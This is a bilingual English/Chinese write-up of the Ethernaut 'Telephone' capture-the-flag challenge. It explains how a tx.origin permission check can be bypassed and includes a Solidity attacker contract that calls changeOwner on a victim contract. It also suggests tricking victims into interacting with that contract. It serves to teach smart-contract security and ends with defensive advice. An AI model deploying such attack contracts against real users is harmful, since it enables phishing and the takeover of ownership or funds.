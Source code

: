 # ⚙️ Challenge: Ethernaut – 04.Telephone

## Exploit Idea: Using `tx.origin` for permission checking can lead to phishing-style attacks

## 漏洞思路：使用 `tx.origin` 做权限校验可能导致钓鱼式攻击

---

## 🧠 Concept Summary / 概念总结

if a contract uses `tx.origin` for permission checking like this:
如果某个合约像这样使用 `tx.origin` 进行权限校验：

```javascript
    function transfer(address to, uint amount) public {
        require(tx.origin == owner, "Not owner");
        // 转账逻辑...
    }
```

This check can potentially be bypassed by calling the contract through an intermediary contract (“Contract A” calling “Contract B”).
可以通过“合约 A 调用合约 B”的方式绕过 tx.origin == owner 的判断。

---

## 🔬Proof of Concept / 概念证明

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract TelephoneAttacker{
    function attack() external {
        address telephoneContractAddr = <victim-contract-address>;
        (bool success ,bytes memory data) = telephoneContractAddr.call(
            abi.encodeWithSignature("changeOwner(address)", <attacter-address>)
        );
    }
}
```

If you can trick the victim into interacting with this attack contract,
you can exploit tx.origin to bypass the permission check.
Because tx.origin will always be the original external user — in this case, the victim.
如果你诱导受害者与攻击合约产生交互，就能利用 tx.origin 绕过权限验证。
因为 tx.origin 永远指向交易最初发起的外部账户，也就是受害者。

---

## 📝Notes

###

- Using msg.sender is much safer than using tx.origin.
  相较于 tx.origin，使用 msg.sender 更加安全。
- Be cautious when designing admin-level or transfer functions.
  Flexibility often introduces more potential attack surfaces.
  在设计管理员操作或转账函数时需要格外小心，越灵活的设计往往意味着越大的攻击面。
